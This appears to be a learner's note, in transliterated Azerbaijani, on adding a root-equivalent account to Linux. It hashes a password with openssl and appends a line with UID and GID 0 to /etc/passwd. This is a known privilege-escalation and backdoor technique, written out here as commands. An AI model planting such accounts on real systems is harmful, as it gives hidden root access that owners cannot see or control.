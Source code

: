## EGER LINUXDA HESAB ELAVE EDIB HASSHLANMISH VERSIYA ILE YARATMAQ ISTEYIRIKSE 


    # openssl passwd -1 -salt [salt]   


  # SALT YENI NESE QATMAQ HASHLANIR
   # SALTIN YERINE [YENI MORTEZEDEKI] ISTEDIYIMIZ AD VERE BILERIK
   # !!  BIZ YAZARKEN MORTERIZE QOYMURUQ

## DAHA SONRA BIZ 
    ## nano /etc/passwd
 BUNU ETDIKDEN SONRA USERNAME YAZIRIQ DAHA SONRA HASHLANMISH VERSIYA VE DAHA SONRA ("0 0 LAR DEYERLERI EHATE EDIR) YENI ROOT KIMI " ) ICRA OLUNACAQ 

    ## username:passwordhash:0:0:root:/root:/bin/bash

  ## BUNU ETDIKDEN SONRA HESABA ARTIQ DAXIL OLARKEN ROOT KIMI DAXIL OLACAYIQ

